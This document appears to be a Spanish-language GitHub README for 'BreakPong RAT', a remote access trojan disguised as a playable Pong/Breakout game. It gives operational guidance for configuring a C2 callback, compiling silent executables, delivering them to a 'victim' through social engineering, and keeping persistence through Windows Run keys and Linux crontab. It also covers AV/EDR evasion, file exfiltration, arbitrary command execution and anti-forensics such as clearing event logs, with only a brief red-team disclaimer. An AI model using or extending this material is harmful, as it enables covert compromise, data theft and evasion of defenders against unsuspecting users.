

# 🔥 BREAKPONG RAT - Advanced Remote Access Toolkit

<div align="center">

```
██████╗ ██████╗ ███████╗ █████╗ ██╗  ██╗██████╗  ██████╗ ███╗   ██╗ ██████╗ 
██╔══██╗██╔══██╗██╔════╝██╔══██╗██║ ██╔╝██╔══██╗██╔═══██╗████╗  ██║██╔════╝ 
██████╔╝██████╔╝█████╗  ███████║█████╔╝ ██████╔╝██║   ██║██╔██╗ ██║██║  ███╗
██╔══██╗██╔══██╗██╔══╝  ██╔══██║██╔═██╗ ██╔═══╝ ██║   ██║██║╚██╗██║██║   ██║
██████╔╝██║  ██║███████╗██║  ██║██║  ██╗██║     ╚██████╔╝██║ ╚████║╚██████╔╝
╚═════╝ ╚═╝  ╚═╝╚══════╝╚═╝  ╚═╝╚═╝  ╚═╝╚═╝      ╚═════╝ ╚═╝  ╚═══╝ ╚═════╝ 
                                                                              
                    ██████╗  █████╗ ████████╗                                
                    ██╔══██╗██╔══██╗╚══██╔══╝                                
                    ██████╔╝███████║   ██║                                   
                    ██╔══██╗██╔══██║   ██║                                   
                    ██║  ██║██║  ██║   ██║                                   
                    ╚═╝  ╚═╝╚═╝  ╚═╝   ╚═╝                                   
```

[](https://python.org)
[](https://github.com)
[](https://github.com)
[](https://github.com)

**Framework profesional de Command & Control camuflado como videojuego retro**

</div>

---

## 🎯 EXECUTIVE SUMMARY

**BreakPong RAT** es un framework de acceso remoto de última generación diseñado para operaciones de Red Team y auditorías de seguridad avanzadas. Implementa técnicas state-of-the-art de evasión, persistencia y command & control, todo mientras mantiene un perfil operacional mínimo mediante su innovador sistema de camuflaje como videojuego.

### 🔑 Key Features

- **Stealth-First Design**: Operación completamente transparente con múltiples capas de ofuscación
- **Dual-Mode Operation**: GUI interactiva o ejecución silenciosa en background
- **Enterprise-Grade C2**: Arquitectura escalable con gestión multi-sesión
- **Advanced Evasion**: Bypass de soluciones EDR/AV mediante técnicas de living-off-the-land
- **Cross-Platform**: Soporte nativo para Windows y Linux con persistencia específica por OS

---

## 🏗️ ARQUITECTURA TÉCNICA

### 📊 Stack Tecnológico

```yaml
Core Framework:
  - Language: Python 3.7+ (Compilable con Nuitka/PyInstaller)
  - Networking: AsyncIO + Native Sockets
  - Crypto: Fernet (AES-128) + Custom Obfuscation Layer
  - Persistence: Registry/Crontab + Process Injection Ready

Client Components:
  - Game Engine: Pygame (Removible post-deployment)
  - System Integration: psutil, win32api (Windows)
  - Evasion: Anti-VM, Anti-Debug, Process Hollowing Ready

Server Infrastructure:
  - Multi-threaded C2 Handler
  - Real-time Session Management
  - Custom Wire Protocol
  - ANSI Terminal UI
```

### 🔄 Flujo Operacional



---

## 💀 CAPACIDADES OPERACIONALES

### 🎮 Cliente RAT - Módulos Core

#### **1. Motor de Camuflaje**
- Videojuego Pong/Breakout completamente funcional
- Renderizado a 60 FPS sin impacto en operaciones
- Sistema de partículas y física realista
- Modo `--silent` para deployments sin UI

#### **2. Sistema de Persistencia Avanzada**

**Windows:**
```python
# Auto-instalación en %APPDATA%\Microsoft\System
# Registro HKCU\Software\Microsoft\Windows\CurrentVersion\Run
# Wrapper con pythonw.exe para ejecución invisible
```

**Linux:**
```python
# ~/.local/share/system con permisos 755
# Crontab @reboot con nohup
# Compatible con systemd para futura expansión
```

#### **3. Módulo de Evasión**
- Detección de entornos virtualizados (VMware, VirtualBox, QEMU)
- Anti-debugging con IsDebuggerPresent
- Preparado para process injection en explorer.exe
- Supresión completa de stdout/stderr

#### **4. Protocolo de Comunicación**

```python
# Formato de mensaje
{
    "status": "success|error",
    "result": "command output",
    "metadata": {...}
}
# Delimitador: END_OF_MESSAGE\n
# Keep-alive: PING\n cada 15±5 segundos (randomizado)
```

### 🖥️ Servidor C2 - Centro de Comando

#### **Interface Features**

```
╔═══════════════════════════════════════════════════════════════════════════════════════╗
║                                                                                       ║
║ ████████╗██╗  ██╗███████╗    ██╗    ██╗██╗  ██╗██╗████████╗███████╗    ██╗  ██╗ █████╗ ████████╗ ║
║ ╚══██╔══╝██║  ██║██╔════╝    ██║    ██║██║  ██║██║╚══██╔══╝██╔════╝    ██║  ██║██╔══██╗╚══██╔══╝ ║
║    ██║   ███████║█████╗      ██║ █╗ ██║███████║██║   ██║   █████╗      ███████║███████║   ██║    ║
║    ██║   ██╔══██║██╔══╝      ██║███╗██║██╔══██║██║   ██║   ██╔══╝      ██╔══██║██╔══██║   ██║    ║
║    ██║   ██║  ██║███████╗    ╚███╔███╔╝██║  ██║██║   ██║   ███████╗    ██║  ██║██║  ██║   ██║    ║
║    ╚═╝   ╚═╝  ╚═╝╚══════╝     ╚══╝╚══╝ ╚═╝  ╚═╝╚═╝   ╚═╝   ╚══════╝    ╚═╝  ╚═╝╚═╝  ╚═╝   ╚═╝    ║
║                                                                                       ║
╚═══════════════════════════════════════════════════════════════════════════════════════╝
```

- **Session Management**: Índices numéricos para acceso rápido
- **Status Indicators**: 🟢 ONLINE | 🟡 IDLE | 🔴 TIMEOUT
- **Auto-completion**: Historial completo con readline
- **Multi-threading**: Manejo concurrente ilimitado de agentes

---

## 🚀 DEPLOYMENT PROFESIONAL

### 📦 Instalación Rápida

```bash
# Clonar repositorio privado
git clone https://github.com/elite-team/breakpong-rat.git
cd breakpong-rat

# Entorno virtual (OPSEC)
python -m venv venv
source venv/bin/activate  # Linux
venv\Scripts\activate     # Windows

# Dependencias
pip install -r requirements.txt
```

### ⚙️ Configuración Pre-Operacional

#### 1. **Configurar C2 Endpoint**

```python
# RAT.py - Línea ~45
"C2_IP": Config._obf("10.10.14.5"),    # Tu servidor C2
"C2_PORT": Config._obf("443"),         # Puerto HTTPS para blend-in
```

#### 2. **Compilación para Producción**

```bash
# Windows - Generar .exe
pyinstaller --onefile --noconsole --add-data "assets;assets" RAT.py

# Linux - Binary standalone
nuitka --standalone --python-flag=no_site --remove-output RAT.py
```

#### 3. **Configurar Persistence**

```python
# Modificar paths en StealthOperations.establish_persistence()
dest_dir = os.path.join(os.getenv("APPDATA"), "Microsoft", "TuApp")
reg_key = "TuServicio"
```

### 🎮 Casos de Uso Operacional

#### **Scenario 1: Initial Access**
```bash
# Delivery mediante social engineering
# Ejecutar como juego legítimo
victim> BreakPong.exe

# El juego inicia, víctima juega
# RAT se conecta en background
```

#### **Scenario 2: Persistence Test**
```bash
# Deploy silencioso
attacker> python generate_payload.py --silent --persist
attacker> deliver_payload.sh target_host

# Verificar persistence
c2> sessions
c2> interact 1
session> schtasks /query  # Windows
session> crontab -l       # Linux
```

#### **Scenario 3: Lateral Movement**
```bash
session> upload toolkit.zip
session> powershell -c "Expand-Archive toolkit.zip"
session> cd toolkit && ./escalate.ps1
```

---

## 🛠️ REFERENCIA DE COMANDOS

### 📡 Comandos C2 Server

| Comando | Sintaxis | Descripción |
|---------|----------|-------------|
| **sessions** | `sessions` | Lista todos los agentes activos con metadata |
| **interact** | `interact <id>` | Establece shell interactiva con agente |
| **kill** | `kill <id>` | Termina agente y limpia persistence |
| **background** | `background` | Retorna sesión a background |
| **clear** | `clear` | Limpia terminal manteniendo contexto |

### 💻 Comandos de Sesión

| Comando | Windows | Linux | Descripción |
|---------|---------|-------|-------------|
| **ls/dir** | `dir` | `ls -la` | Listado de directorio |
| **cd** | `cd <path>` | `cd <path>` | Cambiar directorio |
| **pwd** | `cd` | `pwd` | Directorio actual |
| **download** | `type <file>` | `cat <file>` | Exfiltrar archivo |
| **upload** | `echo <b64>` | `echo <b64>` | Subir archivo |
| **execute** | `<any>` | `<any>` | Ejecución arbitraria |

---

## 🔐 OPSEC & MEJORES PRÁCTICAS

### 🛡️ Consideraciones de Seguridad

1. **Infraestructura C2**
   - Usar redirectores (socat, nginx)
   - HTTPS reverse proxy recomendado
   - Rotar IPs frecuentemente
   - DNS sobre HTTPS para callbacks

2. **Evasión Avanzada**
   ```python
   # Agregar jitter a comunicaciones
   KEEP_ALIVE_INTERVAL = random.randint(10, 30)
   
   # Ofuscar strings adicionales
   Config.CONSTANTS["USER_AGENT"] = Config._obf("Mozilla/5.0...")
   ```

3. **Persistence OPSEC**
   - Nombres de archivos genéricos (svchost, update, etc.)
   - Firmar binarios (signtool/osslsigncode)
   - Scheduled tasks con triggers legítimos

### 🔥 Técnicas Avanzadas

#### **Process Injection**
```python
# Preparado para inyección en procesos legítimos
def inject_into_process(target="explorer.exe"):
    # OpenProcess + VirtualAllocEx + WriteProcessMemory
    pass
```

#### **Traffic Encryption**
```python
# Implementar TLS mutuo
context = ssl.create_default_context(ssl.Purpose.CLIENT_AUTH)
context.load_cert_chain(certfile="client.crt", keyfile="client.key")
```

#### **Anti-Forensics**
```python
# Limpieza automática de artifacts
def cleanup_on_exit():
    # Eliminar logs
    # Sobrescribir memoria
    # Clear event logs
```

---

## 📈 ROADMAP & CARACTERÍSTICAS FUTURAS

### Version 3.0 (Q1 2025)
- [ ] Soporte para macOS
- [ ] Módulo de keylogging selectivo
- [ ] Screenshot con compresión
- [ ] Pivoting automático
- [ ] API REST para C2

### Version 4.0 (Q2 2025)
- [ ] Blockchain C2 (Ethereum smart contracts)
- [ ] Machine Learning para evasión
- [ ] Módulos post-explotación
- [ ] Integration con Cobalt Strike
- [ ] GUI web para C2

---

---

## ⚖️ DISCLAIMER LEGAL

```
Este framework está diseñado EXCLUSIVAMENTE para:
- Auditorías de seguridad autorizadas
- Investigación en ciberseguridad
- Entornos de laboratorio controlados
- Formación de profesionales

El uso malicioso o no autorizado puede resultar en:
- Consecuencias legales severas
- Prosecución criminal
- Daños civiles

Los desarrolladores NO asumen responsabilidad por el mal uso.
```

---

<div align="center">

```
"In code we trust, in shadows we operate"
```

**© 2025 Elite Red Team - Todos los derechos reservados**

</div>
